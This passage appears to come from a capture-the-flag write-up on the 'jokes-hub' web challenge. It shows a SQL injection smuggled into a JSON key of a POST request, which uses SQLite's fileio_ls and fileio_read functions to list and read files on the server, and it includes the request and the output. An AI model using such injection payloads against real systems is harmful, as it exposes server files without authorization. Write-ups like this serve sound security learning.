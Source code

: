 ```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 08:11:18 GMT
content-type: application/json
content-length: 23
connection: close

{"result":"./wsgi.py"}
```

Also, testing each offset, we get :

 - .
 - ..
 - ./wsgi.py
 - ./jokes.txt
 - ./app.py
 - ./app.ini
 - ./requirements.txt
 - ./db.py
 - ./fileio.so
 - ./static
 - ./templates
 - ./notes.txt

Let's also explore parent directories :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 60
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
...
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"name from fileio_ls('..', true) LIMIT 200 OFFSET 1;--":100}
```

We get :

 - ../flagger
 - ../flagger/wsgi.py
 - ../flagger/flagger.py
 - ../flagger/flagger.ini

Now, we need to read the files, but unfortunatly, when using `fileio_read()` function, it returns a blob and bytes instead of strings. And since we cannot do script, we need to do the decoding to `utf-8` that in the query like the following :

```
SELECT CAST(fileio_read('myfile.txt') AS TEXT ENCODING 'utf-8');

```
